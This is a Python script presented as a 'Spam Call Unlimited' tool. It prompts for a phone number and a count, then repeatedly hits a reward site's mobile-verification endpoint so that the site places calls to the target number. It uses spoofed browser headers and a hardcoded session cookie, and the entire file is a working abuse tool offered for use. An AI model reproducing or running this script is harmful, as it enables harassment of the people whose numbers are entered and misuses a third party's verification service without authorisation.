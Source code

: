 Open source
try:
	import time,sys,os,json,requests,random
	from time import sleep
except ModuleNotFoundError:
	exit('$ pip install requests')
ua=random.choice(['Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36'])
data={'Host': 'id.jagreward.com','Connection': 'keep-alive','Accept': '*/*','X-Requested-With': 'XMLHttpRequest','Save-Data': 'on','User-Agent': ua,'Sec-Fetch-Site': 'same-origin','Sec-Fetch-Mode': 'cors','Sec-Fetch-Dest': 'empty','Referer': 'https://id.jagreward.com/member/register/','Accept-Encoding': 'gzip, deflate, br','Accept-Language': 'id-ID,id;q=0.9,en;q=0.8','Cookie': 'PHPSESSID=p8h80oleoevr9do7bor33t88up; _ga=GA1.3.1941571285.1641075863; DAPROPS="sjs.webGlRenderer:Adreno (TM) 505|bjs.accessDom:1|bcookieSupport:1|bcss.animations:1|bcss.columns:1|bcss.transforms:1|bcss.transitions:1|sdevicePixelRatio:1.6687500476837158|idisplayColorDepth:24|bflashCapable:0|bhtml.audio:1|bhtml.canvas:1|bhtml.inlinesvg:1|bhtml.svg:1|bhtml.video:1|bjs.applicationCache:0|bjs.deviceMotion:1|bjs.deviceOrientation:0|bjs.geoLocation:1|bjs.indexedDB:1|bjs.json:1|bjs.localStorage:1|bjs.modifyCss:1|bjs.modifyDom:1|bjs.querySelector:1|bjs.sessionStorage:1|bjs.supportBasicJavaScript:1|bjs.supportConsoleLog:1|bjs.supportEventListener:1|bjs.supportEvents:1|bjs.touchEvents:1|bjs.webGl:1|bjs.webSockets:1|bjs.webSqlDatabase:1|bjs.webWorkers:1|bjs.xhr:1|iorientation:0|buserMedia:1|bjs.battery:0"; _gid=GA1.3.1018949519.1646998248'}
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU.
K = '\x1b[1;93m' # KUNING.
B = '\x1b[1;94m' # BIRU.
U = '\x1b[1;95m' # UNGU.
O = '\x1b[1;96m' # BIRU MUDA.
N = '\x1b[0m'	# WARNA MATI

def logo():
	os.system('clear')
	print(U+"""
  _______       __ __ 
 |   _   .---.-|  |  | """+M+"""© """+P+"""Creator """+M+""": """+P+"""Xenzi Ganzz
"""+U+""" |.  1___|  _  |  |  | """+K+"""® """+P+"""YouTube """+M+""": """+P+"""XENZI GANZ
"""+U+""" |.  |___|___._|__|__| """+H+"""@ """+P+"""Github  """+M+""": """+H+"""https://github.com/Xenzi-XN1
"""+U+""" |:  1   |            
"""+U+""" |::.. . | """+P+"""[ """+H+"""ONLINE """+P+"""]  """+P+""" [ """+K+"""Spam Call Unlimited """+P+"""| """+H+"""Version 2.0 """+P+"""]
"""+U+""" `-------' """)

def main():
	logo()
	print('%s[%s#%s] %sExample %s: %s8xxxxx' % (P,K,P,P,M,H))
	nomor = input('%s[%s?%s] %sNomor%s:%s ' % (P,K,P,P,M,H))
	if nomor in[""]:
		exit('\n%s[%s!%s] %sJanggan Kosong' % (P,M,P,P))
	jum = int(input('%s[%s+%s] %sJumlah %s:%s ' % (P,H,P,P,M,H)))
	if jum > 5:
		exit('\n%s[%s!%s] %sJumlah Terlalu Banyak' % (P,M,P,P))
	elif jum in[""]:
		exit('\n%s[%s!%s] %sJanggan Kosong' % (P,M,P,P))
	else:
		print()
		for i in range(int(jum)):
			Subscribe = requests.get('https://id.jagreward.com/member/verify-mobile/'+nomor+'/',headers=data).text
			if "Anda akan menerima sebuah panggilan dari sistem kami. Silakan isi 6 ANGKA TERAKHIR dari nomor telepon dibawah ini." in Subscribe:
				print("%s[%s✓%s] %sBerhasil Mengirimkan Spam Call" % (P,H,P,P))
			else:
				print("%s[%sX%s] %sGagal Mengirimkan Spam Call" % (P,M,P,P))
		print ('\n%s[%s✓%s] %sSelesai' % (P,H,P,P))
main()

